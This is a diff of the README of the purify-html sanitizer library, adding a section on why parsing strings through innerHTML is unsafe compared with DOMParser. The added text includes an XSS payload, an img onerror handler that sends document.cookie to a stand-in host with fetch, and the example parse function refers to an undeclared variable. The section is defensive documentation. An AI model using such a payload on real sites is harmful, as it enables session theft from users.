

Before and after one commit to oleksandr-dukhovnyy/purify-html, a Markdown page: README.MD, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.MD
+++ b/README.MD
@@ -163,6 +163,23 @@ setParser({
 const sanitizer = new PurifyHTML();
 // ...
 ```
+---
+## why not ```document.createElement(...)```
+
+Because by processing the string like this:
+```javascript
+const parse = (str) => {
+  const node = document.createElement('div');
+  div.innerHTML = str;
+
+  return div;
+}
+```
+
+In fact, this function, having received a special payload, will RUN it. The following payload will send a network request:
+`<img/src/onerror="fetch('www.site.com?q='+encodeURI(document.cookie)">`
+
+And in the case of using DOMParser, the code does not run.
 
 ---
 
````
